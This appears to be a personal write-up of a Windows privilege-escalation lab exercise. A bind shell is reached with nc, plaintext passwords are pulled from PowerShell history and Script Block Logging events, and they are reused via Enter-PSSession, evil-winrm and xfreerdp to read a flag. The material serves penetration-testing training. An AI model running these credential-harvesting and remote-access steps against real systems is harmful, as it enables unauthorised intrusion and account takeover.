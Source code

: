 # Walk: Windows Privilege Escalation - Information Goldmine PowerShell - VM #

## Fecha: 04/030/2025
## Host: Windows
## IP: 192.168.105.220
## Objetivo
1.Follow the steps above and obtain an interactive shell as _daveadmin_ on _CLIENTWK220_ (VM #1). Enter the flag, which can be found on the desktop.
2.Connect to _CLIENTWK220_ (VM #1) as _daveadmin_ via RDP. Use the _Event Viewer_ to search for events recorded by Script Block Logging. Find the password in these events.
## Herramientas
1. nc
2. evil-winrm
3. xfreerdp
## Procedimiento y comandos
#### Paso 1: Enumeracion del host
1. Generamos un bind shell con nc: `nc 192.168.105.220 4444`
2. Una vez dentro, intentamos obtener el historial de comandos y traducciones.

```
PS C:\Users\dave> Get-History
Get-History
PS C:\Users\dave> (Get-PSReadlineOption).HistorySavePath
(Get-PSReadlineOption).HistorySavePath
C:\Users\dave\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
PS C:\Users\dave> type C:\Users\dave\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
type C:\Users\dave\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
whoami
ls
$PSVersionTable
Register-SecretVault -Name pwmanager -ModuleName SecretManagement.keepass -VaultParameters $VaultParams
Set-Secret -Name "Server02 Admin PW" -Secret "paperEarMonitor33@" -Vault pwmanager
cd C:\
ls
cd C:\xampp
ls
type passwords.txt
Clear-History
Start-Transcript -Path "C:\Users\Public\Transcripts\transcript01.txt"
Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred
exit
Stop-Transcript
```
> De **(Get-PSReadlineOption).HistorySavePath** Obtenemos el historial de comandos ejecutados

#### Paso 2: Obtenemos sesion como _daveadmin_ (flag-1)
1. Ejecutamos los comandos de la salida del historial:
```
PS C:\Users\dave> $password = ConvertTo-SecureString "qwertqwertqwert123!!" -AsPlainText -Force
$password = ConvertTo-SecureString "qwertqwertqwert123!!" -AsPlainText -Force
PS C:\Users\dave> $cred = New-Object System.Management.Automation.PSCredential("daveadmin", $password)
$cred = New-Object System.Management.Automation.PSCredential("daveadmin", $password)
PS C:\Users\dave> Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred
Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> whoami
whoami
clientwk220\daveadmin
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> 
```
2. Ejecutamos en nuestro kali _evil-winrm_ (Leer troubleshooting)
```
evil-winrm -i 192.168.105.220 -u daveadmin -p "qwertqwertqwert123\!\!"
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\daveadmin\Documents> dir
*Evil-WinRM* PS C:\Users\daveadmin\Documents> cd ..
*Evil-WinRM* PS C:\Users\daveadmin> dir


    Directory: C:\Users\daveadmin


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-r---         8/27/2024   3:33 AM                Contacts
d-r---          3/4/2025   6:14 AM                Desktop
d-r---         8/27/2024   3:33 AM                Documents
d-r---         9/23/2024   4:33 AM                Downloads
d-r---         8/27/2024   3:33 AM                Favorites
d-r---         8/27/2024   3:33 AM                Links
d-r---         8/27/2024   3:33 AM                Music
d-r---         7/11/2022   2:43 AM                OneDrive
d-r---         8/27/2024   3:33 AM                Pictures
d-r---         8/27/2024   3:33 AM                Saved Games
d-r---         8/27/2024   3:33 AM                Searches
d-r---         8/28/2024   2:16 AM                Videos
-a----         8/27/2024   4:11 AM            281 file_check.ps1


*Evil-WinRM* PS C:\Users\daveadmin> cd Desktop
*Evil-WinRM* PS C:\Users\daveadmin\Desktop> dir


    Directory: C:\Users\daveadmin\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          3/4/2025   6:14 AM             38 flag.txt
-a----         8/27/2024   3:33 AM           2354 Microsoft Edge.lnk


*Evil-WinRM* PS C:\Users\daveadmin\Desktop> type flag.txt
OS{cb5f*****************************907f}
*Evil-WinRM* PS C:\Users\daveadmin\Desktop> 
```
- Flag-1: **OS{cb5f*****************************907f}**
#### Paso 3: Nos conectamos por _rdp_ (flag-2)
1. ` xfreerdp /u:"daveadmin" /p:"qwertqwertqwert123\!\!" /v:192.168.105.220 /dynamic-resolution +clipboard /cert:ignore`
2. Una vez dentro abrimos _Event Viewer_ y nos dirigimos a la carpeta _powershell_
_Microsoft → Windows → PowerShell → Operational_
3. Filtramos o buscamos el eventopor id: **4104** _(Script Block Logging)_
```
Creating Scriptblock text (1 of 1):
iwr -uri http://192.168.50.120 -Headers @{ Authorization = "Basic " + [System.Convert]::ToBase64String([System.Text.Encoding]::ASCII.GetBytes("dave:******flag******")) }

ScriptBlock ID: 75eaa93b-8890-49e3-a35d-e6dc45e3651f
Path: 
```

## Troubleshooting
1. Al obtener la sesion de usuario daveadmin desde el bind shell dave solo podemos ejecutar el comando **_whoami_**
```
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> cd C:\
cd C:\

[CLIENTWK220]: PS C:\Users\daveadmin\Documents> pwd
pwd

[CLIENTWK220]: PS C:\Users\daveadmin\Documents> dir
dir
```
> Por este motivo utilizamos **_evil-winrm_**
